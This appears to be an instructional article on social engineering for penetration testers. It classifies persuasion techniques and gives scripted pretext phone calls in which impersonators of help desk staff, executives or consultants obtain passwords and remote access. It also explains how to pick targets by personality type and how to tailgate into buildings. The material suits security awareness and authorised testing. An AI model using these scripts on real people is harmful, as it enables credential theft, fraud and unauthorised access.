




# Hacking Humans: The Art of Social Engineering

.png>)

In a 2023 survey conducted by Cybersecurity Insiders during the RSA Conference in San Francisco, CA, it was revealed that over 60% of attendees were willing to share their work credentials in exchange for an incentive as small as a gift card. This outrageous concept highlights how easily access to networks can be compromised without ever needing to breach technical defenses.

This frightening example underscores the persistent vulnerability that the human factor introduces to network security. Despite advancements in encryption, firewalling technologies, and VPNs, the most sophisticated security measures can very well be undermined if employees are willing to hand over access to systems. Often, the simplest and most effective way to breach a corporate network is through hacking humans – just ask for the credentials!

Ethical hackers and penetration testers are frequently tasked with this exact challenge. Companies hire them to use social engineering tactics to assess whether employees adhere to internal policies and avoid disclosing sensitive information. Social engineers specialize in using deceptive tactics, like persuasion, and influence to obtain information that would otherwise be inaccessible. The saying, _“there’s a sucker born every minute,”_ plays well into their hands, allowing them to bypass even the most secure data centers. These networks are often referred to as _“candy networks,”_ because, like an M\&M, they have a hard, secure exterior but a vulnerable, soft interior. Or as I like to refer them to as _“swiss cheese networks.”_ Think of a network like a block of Swiss cheese. When it’s first set up, it’s solid and intact, with all the latest security measures in place, much like a freshly made block of cheese; however, as time goes on, just like the cheese starts developing holes due to natural processes, a network can begin to show vulnerabilities. These “holes” might appear due to outdated software, unpatched systems, or new threats that weren’t anticipated during the initial setup.

Just as Swiss cheese’s holes are a natural outcome of its aging process, a network’s weaknesses often emerge as it ages and evolves. Without regular maintenance, updates, and vigilance, what was once a solid and secure network can become riddled with gaps – opening that attackers can exploit.

Social engineering comes in two main forms:

* Technology-based
* Human-based

### TECHNOLOGY-BASED SOCIAL ENGINEERING

Technology-based social engineering involves the deceptive use of technology to manipulate and deceive individuals into divulging sensitive information. An example of this technique is the deployment of a pop-up window on a user’s computer system at an unexpected moment, designed to request the user re-enter their password because of an “expired” session. In this scenario, the user is informed that their session has expired, prompting them to re-enter their username and password and upon hitting that OK, or Submit, this information is quickly transmitted directly to the computer of a malevolent hacker. With this ill-gotten data in hand, the malicious actor can potentially gain unauthorized access to the victim’s network, whether it be a home, or a corporate network, which can subsequently be exploited for malicious purposes. The insidious nature of this attack lies in its ability to exploit user’s trust and familiarity with system prompts, leading them to unwittingly surrender their critical login credentials to malicious actors on the other end. In essence, technology-based social engineering tactics capitalize on human vulnerabilities to bypass security measures and gain illicit access to sensitive systems and information. Thus, organizations and individuals must remain vigilant and adopt resilient cybersecurity practices to safeguard against such fraudulent schemes that seek to compromise data integrity and privacy.

In contrast, when it comes to human-based social engineering, technology does not play a role in the process as it primarily involves direct interaction through face-to-face encounters, electronic messaging (e.g., SMS-based texting, email, or instant messaging) and phone conversations. The essence of human-based social engineering lies in the ability of one to take advantage of the innate desire within individuals to assist those who appear to be in need. This approach does not rely on sophisticated technical devices but rather on interpersonal skills and the ability to manipulate emotions and situations to elicit the desired response or outcome. By leveraging the predictability of human nature and behavior, social engineers can effectively manipulate situations to achieve their goals or objectives, whether it be gaining access to sensitive information or persuading individuals to take certain actions – actions these individuals would not normally participate in doing. This form of social engineering is deeply rooted in exploiting human empathy and goodwill, often leading individuals to act contrary to their best interests without even realizing it. Through the subtle manipulation of social dynamics and psychological triggers, social engineers can successfully navigate human interaction to achieve their goals; therefore, while technology-based social engineering may rely on tools and software, human-based social engineering thrives on the interpersonal dynamics and emotional responses that drive human behavior and emotional vulnerability, making it a powerful and effective tactic in achieving deceitful objectives.

### HUMAN PSYCHOLOGY IN SOCIAL ENGINEERING

In social engineering, you’re not dealing with hardware or software but with wetware – the human element of computing, or human-hacking as I say. People naturally tend to trust others, and social engineers use this to capitalize on inherent trusts to manipulate and deceive.

At its core, social engineering is the art of _persuasion_. It’s the art of _influencing_, the art of _manipulation_, the art of _coercion_, and the art of tactical deceptive attacks on the human psyche and taking advantage of human emotional vulnerability.

Social engineering involves fostering influence through profound understanding, mastering the complex art of manipulation, skillfully navigating the boundaries of coercion, and executing intricate tactical maneuvers that capitalize on the vulnerabilities within the human psyche. This intricate practice not only revolves around the art of persuasion but also involves a sophisticated interplay of psychological strategies meant to subtly steer individuals towards desired outcomes through a subtle combination of calculated moves and strategic maneuvers. By leveraging a deep understanding of human behavior, social engineers deftly weave a tapestry of influence that intricately exploits cognitive biases, emotional triggers, and social dynamics to achieve their objectives. Hence, social engineering transcends mere manipulation and coercion; it embodies a strategic approach that artfully blends psychological insight with tactical execution to effectively shape and control human actions and decisions.

Social psychology identifies seven types of persuasion techniques that social engineers might use:

* Conformity
* Logic
* Need-based
* Authority
* Reciprocation-based
* Similarity-based
* Information-based

### CONFORMITY PERSUASION

Conformity persuasion leverages peer pressure to influence behaviors. When a person believes that everyone else is doing something, they are more likely to conform. For example, a penetration tester might impersonate a help desk staff member to gain access to a telecommuter’s computer. Imagine this scenario:

|   | 
 <strong>Social Engineer:</strong> Hello, this is Dave from the help desk. I’m calling to perform routine maintenance on your system.

<strong>VictimUser:</strong> Really? I wasn’t aware the help desk was doing routine maintenance on our computers today.

<strong>Social Engineer:</strong> Yes, it is an out-of-band patch, a critical one, and we’ve been told by our management that these patches must get rolled out immediately. They said something about sending an email to the workforce soon, so do not worry. It won’t take long, and apologies for interrupting you with such short notice.

<strong>VictimUser:</strong> Oh, okay, then! Do what you have to do! It’s all yours! Thanks for keeping us safe and updated!

<strong>Social Engineer:</strong> One last thing, if you don’t mind. The IT team agreed that it would be the best time to also roll out a patch that only concerns our VPN users. It’s an update to the agent on all telecommuter laptops, and we figured since you’re not telecommuting today, what a great time to kill two birds with one stone! We are asking telecommuting users to please provide the IT department with your VPN username and password so that we can remotely access the agent to push the update to it. This is standard for all users who use company provisioned laptops for telecommuting business. After we are done, and once you log back in, we will push to you a prompt so that you can update your password to a new one, that way no one knows it. Is that ok?

<strong>VictimUser:</strong> Um, ok, yeah. Sure. That’s pretty convenient! My username is jdoe, and my password is pleasedonthackm3!

<strong>Social Engineer:</strong> Great! Thanks for your help. I’ll remotely connect to your computer using your VPN credentials right now to get the updates going, We should be done in no time. Thank you for your patience in this matter.
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | - |

At this point, you, the social engineer, can consider this a win as you have just successfully obtained the user’s credentials to access the company’s internal network.

### LOGIC PERSUASION

Logic persuasion involves using logical arguments to convince a target to comply. This technique is effective when presenting two true statements followed by a conclusion that benefits the social engineer. For instance, by posing as a help desk technician, you might obtain a password as follows:

|   | 
 <strong>Social Engineer:</strong> Hello, this is Angelica from the help desk. As you know, security is a critical concern for networks today. (first true statement).

<strong>VictimUser:</strong> Yes, I’ve seen a lot about that lately. It’s shocking how many networks get compromised due to weak security.

<strong>Social Engineer:</strong> Exactly. My job is to ensure all systems are secure with strong passwords. I’m sure you want your computer to be secure, right? (second true statement).

<strong>VictimUser:</strong> Most definitely!

<strong>Social Engineer:</strong> Great, let’s make sure you’re using a secure password. (conclusion) I’ll guide you through changing your password and provide a secure example. Please press Ctrl+Alt+Delete and click Change Password.

<strong>VictimUser:</strong> Alright.

<strong>Social Engineer:</strong> For your new password, type ABC123!!. This combines letters, numbers, and special characters, making it much harder to guess. Make sense?

<strong>VictimUser:</strong> Yes, that makes sense. How often should I change my password?

<strong>Social Engineer:</strong> We just updated it, so you should be good for a while. I’ll follow up in a few months when it’s time to change it again. 
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | - |

By presenting two true statements, the social engineer can lead the victim to accept the conclusion, making them more likely to comply with the request.

### NEED-BASED PERSUASION

Need-based persuasion taps into people’s natural inclination to help others by presenting a situation where the target can assist, such as providing a password. A classic example involves posing as a new employee calling the help desk of a large company:

|   | 
 <strong>Social Engineer:</strong> Hi, I just started here and really could use some help, if you don’t mind?

<strong>VictimUser:</strong> You’ve reached the right place! What can I do for you?

<strong>Social Engineer:</strong> I’m supposed to create a report and print it, but I forgot my username and password.

<strong>VictimUser:</strong> What’s your name?

<strong>Social Engineer:</strong> Bobby Haddock

<strong>VictimUser:</strong> Hmm…I don’t see you in our directory. Are you sure your account was set up?

<strong>Social Engineer:</strong> Yes, my boss said it was, but this is the first time I need to log in. Can you please set me up quickly? I really don’t want to disappoint my new boss.

<strong>VictimUser:</strong> I’m really sorry, but I’m not allowed to do that without authorization from your direct supervisor.

<strong>Social Engineer:</strong> Oh, shucks. My supervisor just went into a meeting with a client. I’m supposed to print this report for them, and I really don’t want to interrupt my boss during such an important meeting. Could you please just help me? I just started here, and I don’t want to make a bad first impression.

<strong>VictimUser:</strong> We’re not supposed to do this, but I suppose I can help. Your username is haddock, and your temporary password is password123.

<strong>Social Engineer:</strong> Thank you so much! 
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | - |

When implementing need-based social engineering tactics, it is common for the target to exhibit initial hesitation, such as the help desk technician did in our scenario. In such instances, it is crucial to leverage emotional responses effectively. As humans, we are inherently driven by emotions, often causing us to deviate from strict protocols when a personal connection is established. Referencing the earlier situation, the social engineer strategically tapped into the help desk technician’s sense of desperation, prompting an empathetic response and a genuine willingness to assist. This illustrates the importance of establishing a relatable and emotional appeal to encourage cooperation and facilitate successful outcomes in social engineering endeavors. By recognizing and capitalizing on these emotional dynamics, social engineers can enhance their abilities to influence and manipulate targets effectively, ultimately achieving their objectives with greater precision and efficacy.

### AUTHORITY-BASED PERSUASION

Authority-based persuasion is a highly effective technique where you pretend to be someone in a position of power, or authority. This method is similar to how commercials use celebrities to endorse products – people trust them not because they’re experts, but because of their societal status. You will see this tactic used in many scammer schemes where they call unsuspecting users and impersonate the IRS or the FTC to steal money from the victim. In social engineering, this tactic often involves impersonating someone of that stature, and in a corporate context, would be that of someone from a C-Suite or executive management level.

|   | 
 <strong>Social Engineer:</strong> Hello, this is Jane Doe, VP of Human Resources. Is this the help desk?

<strong>VictimUser:</strong> Yes, ma’am. How can I assist you today?

<strong>Social Engineer:</strong> I’m working from home today and have been trying to connect all morning, but it’s not working. I think I accidentally deleted the configuration. What do I need to do to get it fixed?

<strong>VictimUser:</strong> Let me guide you through it. 
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

By posing as someone with authority, the social engineer leverages the inherent trust and deference that people often show towards those they perceive as higher in the corporate ladder, or organizational hierarchy to be more politically correct. This tactic can easily bypass standard security procedures, as targets are more likely to comply without questioning the request.

| **NOTE**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 
 It is a federal crime in the United States to impersonate a government official, or any individual with the intent to deceive or defraud. This includes impersonating law enforcement officers, federal agents, or other government personnel. The penalties for such actions can be severe, including fines and imprisonment. Specifically, under 18 U.S. Code § 912, anyone who falsely assumes or pretends to be an officer or employee of the United States and acts as such, or demands or obtains any money, paper, document, or thing of value by pretending to be such an officer or employee, can face criminal charges.

In the context of social engineering, impersonating a government official or any authority figure as part of a phishing scam or other fraudulent activity could lead to prosecution under these laws. 
 |

At this point, the help desk technician would likely proceed to guide the social engineer through the process of setting up remote access connectivity. They might provide the necessary phone number, and if asked, could even share the username and password. If the help desk technician hesitates or doesn’t provide the credentials, the social engineer could escalate the situation by expressing frustration or annoyance, making the technician feel pressured or fearful of potential repercussions. This tactic could lead the technician to divulge the executive’s password, granting the social engineer unauthorized access to the company’s network and sensitive data.

| **NOTE**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 
 You might be wondering how you could know the name of an executive if you’re an outsider. The answer is simple – most company websites feature profiles of their executives, often accompanied by photos. From this information, you can gather the name, gender, and approximate age of the executive. Then, it’s just a matter of having someone with a similar gender and age call in and impersonate that executive. Since help desk personnel typically don’t interact with executive-level management regularly, they’re unlikely to recognize if the voice sounds a bit different. Moreover, voices tend to sound slightly different over the phone, particularly when calling from a cell phone, making it even easier to deceive them.
 |

### RECIPROCATION-BASED SOCIAL ENGINEERING

Reciprocation techniques involve convincing someone to do you a favor with the promise of returning the favor in the future. It’s similar to how a car salesperson might pretend to be saving you money as a favor in exchange for you purchasing a car, even though the benefit is one-sided.

A practical example of this occurred when a dot-com company was relocating to a new data center. The social engineer learned about the move through a press release and positioned himself outside of the new building, waiting for employees transporting office supplies from their old location. He offered to help an employee carry the supplies inside. Once they reached the front door, which was secured by a card reader, he claimed he had forgotten his access card at home and asked the employee to let him in just this once. Having just received help with the supplies, the employee obliged and granted him access. Once inside, the social engineer walked to a row of empty cubicles with new computers, began removing them, and carried them out of the building. Since everyone was accustomed to seeing equipment being moved during the relocation, no one questioned his actions.

### SIMILARITY-BASED SOCIAL ENGINEERING

Similarity is a common technique in sales that relies on connecting with the target’s personal interests and hobbies to build rapport. For example, as a penetration tester practicing social engineering, you could loiter near a designated smoking area outside a company until someone steps out for a smoke. You strike up a conversation, aiming to discover shared interests with the employee.

|   | 
 <strong>Social Engineer:</strong> Got any kids?

<strong>VictimUser:</strong> Yeah, I’ve got three boys.

<strong>Social Engineer:</strong> Really?! So do I!! (Even if you don’t, you act as if you have similar life experiences). How old are they!?

<strong>VictimUser:</strong> 9, 11, and 14.

<strong>Social Engineer:</strong> Oh, mine are close to that – 10, 12, and 14. (Avoid making it exactly the same to keep the interaction believable).

<strong>VictimUser:</strong> Wow, what a coincidence! 
 |   |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

As you continue the conversation, you find more common ground, agreeing with each point the employee makes. Over a few minutes, you establish a friendly rapport. When the employee is about to head back into the building, you casually walk in with them, bypassing any security measures like badge checks. The employee now feels a sense of familiarity and trust toward you, making them less likely to question your presence. At its core, social engineering is all about exploiting the trust of others.

### INFORMATION-BASED SOCIAL ENGINEERING

The final type of social engineering technique is the information-based approach. This strategy involves demonstrating your knowledge to convince the target that you are legitimate. For example, you might visit a company claiming to be from an IT consulting firm tasked with inspecting their router. By discussing technical details like routing protocols and access lists – information typically known only by those who work with routers – you can persuade the employee that you’re credible, leading them to grant you access. Imagine this totally legit-sounding scenario:

|   | 
 <strong>Social Engineer:</strong> Hi, this is Yvonne from Make IT Better Solutions. I’m following up on the router configuration changes we were scheduled to implement today. Is this the network admin I’m speaking with?

<strong>VictimUser:</strong> No, I’m part of the IT support team, but I can assist you. What do you need again?

<strong>Social Engineer:</strong> Great! We’ve been contracted by your company to optimize your routing protocols to reduce latency and improve overall network efficiency. Specifically, we need to verify first if the OSPF configuration and the ACLs on your guys’ router don’t interfere with the new policy configuration updates.

<strong>VictimUser:</strong> Hmm, I wasn’t aware of this update. Do you have more details you could possibly provide me?

<strong>Social Engineer:</strong> Of course! Sure thing. So, your network, from what I gathered from the top tier meeting had the other day with the good folks from your company, briefed us on the current setup and your network is currently using OSPF with a few static routes that may be redundant after our initial changes. We’re planning to adjust the OSPF cost metric on your core and edge routers to improve traffic flow between the subnets. Before proceeding, however, I just need to confirm that you’re running OSPF version 2 on your main routers. If it's version 3, the configuration process will have to be slightly adjusted for all to play nice and work well together.

<strong>VictimUser:</strong> Um, yes, we’re using OSPF version 2.

<strong>Social Engineer:</strong> Perfect. I also noticed that the ACLs applied to your edge routers might be too restrictive, potentially blocking legitimate traffic. I’d like to review those with you and make the necessary adjustments. Could you please provide remote access so I can log in and start the manual assessment?

<strong>VictimUser:</strong> That sounds reasonable. Let me go ahead and generate you some temporary credentials. We’re using a secure tunnel, so I’ll also need to give you the access key.

<strong>Social Engineer:</strong> Excellent (imagine Mr. Burns from The Simpsons’ <em>“eeexcellent”).</em> Once you provide the credentials and the key, I’ll dive into the configurations and get everything optimized and situated correctly. This should only take me about 30-45 minutes given no unforeseen hiccups arise.

<strong>VictimUser:</strong> All right, here is the information:
<ul><li>Username is tempadmin</li><li>Password is NetSecure2024</li><li>Access Key is 5h8d3jk</li><li>Domain is ‘unhackable.net’</li><li>Router IP is 192.168.1.1 with a NAT IP address of 208.0.113.10</li></ul>
<strong>Social Engineer:</strong> Thank you!! I’ll start the review immediately. I’ll let you know once the changes are complete.
 |   |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

In this scenario, the social engineer hit the jackpot by not only secure pre-authorization to proceed with the “OSFP configuration change,” but also gathering more critical information than initially targeted, including domain details and router IPs. This revelation further opened the door, revealing that the organization’s core network infrastructure relies on IP address Network Address Translation (NAT). The social engineer achieved this by demonstrating a deep understanding of advanced networking concepts like OSPF, core metrics, and access lists. This technical fluency helped to build trust, ultimately convincing the victim to hand over remote access credentials and additional sensitive information.

I want to emphasize the critical importance of the social engineer now being aware that the organization uses NAT, even though this information was never initially requested. This knowledge gives the social engineer a significant advantage. NAT is often employed to map multiple private IP addresses to a single public-facing IP address, enabling various devices on a local network to connect to external networks, such as the internet, while keeping internal IP addresses private. With this newfound understanding of NAT in the network, the social engineer can now exploit this in several ways to further infiltrate the network, such as by taking the following steps:

1. **Mapping the Network Topology:** Understanding that NAT is in use helps the social engineer deduce that there are likely internal devices with private IP addresses hidden behind the NAT. This information can be used to craft targeted attacks aimed at internal resources, knowing that these devices are accessible only from within the network.
2. **Exploiting NAT Configurations:** The social engineer could attempt to exploit any misconfigurations in the NAT setup, such as improperly configured port forwarding or firewall rules that might expose internal services to the outside world. By identifying these weak points, the attacking social engineer could gain direct access to internal systems.
3. **Tailoring Further Social Engineering Attacks:** With the knowledge that NAT is used, the social engineer can craft more convincing scenarios for future interactions. For example, they could next pose as a network administrator needing to reconfigure NAT settings or troubleshoot related issues, further gaining the trust of employees and acquiring even more critical information or even access.
4. **Bypassing Security Measures:** Knowing that NAT is used, the social engineer might also attempt to bypass network security measures by finding ways to appear as legitimate internal traffic. This could involve spoofing IP addresses or crafting packets that appear to originate from within the NATed network, thereby evading perimeter defenses and accessing sensitive internal systems.

In summary, discovering that the network uses NAT gives the social engineer more than she ever hoped for, given a clearer picture of the network’s structure and its potential vulnerabilities. This insight allows the attacker to plan more targeted and effective strategies for deeper penetration into the target network.

| 
 <strong>BEHAVIOR PROFILING</strong>

As a social engineer, it’s crucial to understand different behavioral profiles, as some are more susceptible to manipulation than others. One widely recognized classification system is the <em><strong>D.I.S.C. profile</strong></em> (http://www.discprofile.com), which categorizes behaviors into four types:
<ul><li><strong>Dominant:</strong> Managers often exhibit a dominant behavioral style. These individuals like to take control of situations and may feel threatened if they lose that control. Dominant personalities are typically the hardest to manipulate.</li><li><strong>Influence:</strong> This behavioral style is common among those who thrive in social environments. These individuals enjoy socializing, taking breaks, and being the center of attention. Social engineering tactics that involve humor, a lighthearted approach, or making tasks appear enjoyable can be effective with this type. Interestingly, people with an influence temperament often excel at social engineering themselves.</li><li><strong>Steadiness:</strong> People with a steadiness behavioral style are usually the easiest to manipulate for information. They tend to be quiet, helpful, and avoid conflict. Appealing to their emotional needs is the most effective strategy for social engineers targeting this profile type.</li><li><strong>Conscientious:</strong> This cautious behavioral style is often found in roles that require attention to detail, such as finance or programming. These individuals need to know all the facts before they trust someone. An information-based approach to social engineering, where you provide ample details, is the best way to build trust with conscientious individuals.</li></ul> |   |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

### ESSENTIAL QUALITIES FOR MASTERING SOCIAL ENGINEERING

To excel at social engineering, you need to develop and master four key qualities:

* **Patience**
* **Confidence**
* **Trust**
* **Inside Knowledge**

Let’s explore these four key qualities in more detail.

### PATIENCE IN SOCIAL ENGINEERING

Patience is arguably the most crucial trait for a social engineer. Many attempts at social engineering fail because the attacker rushes to ask for sensitive information before building sufficient trust and rapport with the target. A skilled social engineer might make several non-threatening phone calls to the same person before attempting to gather critical details and information, such as passwords, or access codes.

It's essential to start with innocuous conversational topics to lower the target’s guard. Consider the difference between these two scenarios:

#### _**RUSHING THE REQUEST**_

|   | 
 <strong>Social Engineer:</strong> Hi, this is Nina from the help desk.

<strong>VictimUser:</strong> Hi. How can I help you?

<strong>Social Engineer:</strong> We are updating our records and need to know your password.

<strong>VictimUser.</strong> Um. Excuse me? We’re not supposed to give out any passwords. Who is this? 
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

In this example, the social engineer asks for the password way too quickly, raising the victim’s suspicions.

#### _**BUILDING TRUST AND RAPPORT AT SNAIL’S PACE**_

|   | 
 <strong>Social Engineer:</strong> Hi, this is Nina from the help desk.

<strong>VictimUser:</strong> Hi. How can I help you?

<strong>Social Engineer:</strong> We’re updating our records and need some information about your computer. Do you have a laptop or a desktop?

<strong>VictimUser:</strong> A desktop.

<strong>Social Engineer:</strong> Could you please read me the serial number? It should be on the front, side, or back. (Most computers have serial numbers in these locations, making this a safe assumption).

<strong>VictimUser:</strong> 599911241

<strong>Social Engineer:</strong> Great! Thank you so much for that information. Now, can you please tell me which version of Chrome you are using? You can find it under the Help menu, then choose About Google Chrome.

<strong>VictimUser:</strong> Version 128.0.6613.114.

<strong>Social Engineer:</strong> Thanks. Do you have a 17-inch or 15-inch monitor?

<strong>VictimUser:</strong> 15-inch.

<strong>Social Engineer:</strong> And are you still using the username jdoe?

<strong>VictimUser:</strong> No, it’s johndoe.

<strong>Social Engineer:</strong> Okay, I’ll make note of that. What’s your current password, if you don’t mind my asking?

<strong>VictimUser:</strong> It’s johndoe123.

<strong>Social Engineer:</strong> Great. What kind of mouse do you use? (The conversation continues with irrelevant questions to maintain the appearance of a routine inquiry). 
 |   |
| - | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

In the second scenario, the social engineer gradually builds rapport by asking for harmless information before subtly slipping in the request for the password. This approach is much more likely to succeed because it doesn’t raise any red flags for the victim. Not from the beginning, at least.

